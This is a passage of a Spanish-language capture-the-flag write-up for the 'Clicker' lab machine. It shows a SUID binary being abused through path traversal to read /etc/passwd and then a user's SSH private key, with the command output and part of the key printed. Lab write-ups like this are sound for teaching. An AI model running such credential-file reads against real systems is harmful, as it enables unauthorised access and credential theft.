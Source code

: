 
Es decir, que como segundo argumento podemos poner lo que sea y de tercer argumento podemos poner un archivo y el binario leerá este archivo y lo reportará por pantalla y como este binario debido al permiso SUID lo está ejecutando `jack` podríamos intentar leer archivos de este usuario.

Primero vamos a leer el `/etc/passwd` para comprobar que esto es así.

```shell
(remote) www-data@clicker:/var/www/clicker.htb/exports$ /opt/manage/execute_query 2123123 ../../../etc/passwd
mysql: [Warning] Using a password on the command line interface can be insecure.
--------------
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
.........
```
Y funciona. Tener en cuenta que este archivo lo hemos leido como `jack`

Por alguna razón no podía leer la id_rsa.

```shell
(remote) www-data@clicker:/var/www/clicker.htb/exports$ /opt/manage/execute_query 2123 ../../../home/jack/.ssh/id_rsa
mysql: [Warning] Using a password on the command line interface can be insecure.
ERROR: Can't initialize batch_readline - may be the input source is a directory or a block device.
```


Probando un rato por alguna razón probando `../.ssh/id_rsa` pude leer la clave privada de `jack`

```shell
(remote) www-data@clicker:/var/www/clicker.htb/exports$ /opt/manage/execute_query 21 ../.ssh/id_rsa
mysql: [Warning] Using a password on the command line interface can be insecure.
--------------
-----BEGIN OPENSSH PRIVATE KEY---
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAs4eQaWHe45iGSieDHbraAYgQdMwlMGPt50KmMUAvWgAV2zlP8/1Y
J/tSzgoR9Fko8I1UpLnHCLz2Ezsb/MrLCe8nG5TlbJrrQ4HcqnS4TKN7DZ7XW0bup3ayy1
kAAZ9Uot6ep/ekM8E+7/39VZ5fe1FwZj4iRKI+g/BVQFclsgK02B594GkOz33P/Zzte2jV
Tgmy3+htPE5My31i2lXh6XWfepiBOjG+mQDg2OySAphbO1SbMisowP1aSexKMh7Ir6IlPu
nuw3l/luyvRGDN8fyumTeIXVAdPfOqMqTOVECo7hAoY+uYWKfiHxOX4fo+/fNwdcfctBUm
pr5Nxx0GCH1wLnHsbx+/oBkPzxuzd+BcGNZp7FP8cn+dEFz2ty8Ls0Mr+XW5ofivEwr3+e
30OgtpL6QhO2eLiZVrIXOHiPzW49emv4xhuoPF3E/5CA6akeQbbGAppTi+EBG9Lhr04c9E
2uCSLPiZqHiViArcUbbXxWMX2NPSJzDsQ4xeYqFtAAAFiO2Fee3thXntAAAAB3NzaC1yc2
EAAAGBALOHkGlh3uOYhkongx262gGIEHTMJTBj7edCpjFAL1oAFds5T/P9WCf7Us4KEfRZ
KPCNVKS5xwi89hM7G/zKywnvJxuU5Wya60OB3Kp0uEyjew2e11tG7qd2sstZAAGfVKLenq
f3pDPBPu/9/VWeX3tRcGY+IkSiPoPwVUBXJbICtNgefeBpDs99z/2c7Xto1U4Jst/obTxO
TMt9YtpV4el1n3qYgToxvpkA4NjskgKYWztUmzIrKMD9WknsSjIeyK+iJT7p7sN5f5bsr0
RgzfH8rpk3iF1QHT3zqjKkzlRAqO4QKGPrmFin4h8Tl+H6Pv3zcHXH3LQVJqa+TccdBgh9
cC5x7G8fv6AZD88bs3fgXBjWaexT/HJ/nRBc9rcvC7NDK/l1uaH4rxMK9/nt9DoLaS+kIT
tni4mVayFzh4j81uPXpr+MYbqDxdxP+QgOmpHkG2xgKaU4vhARvS4a9OHPRNrgkiz4mah4
lYgK3FG218VjF9jT0icw7EOMXmKhbQAAAAMBAAEAAAGACLYPP83L7uc7vOVl609hvKlJgy
```
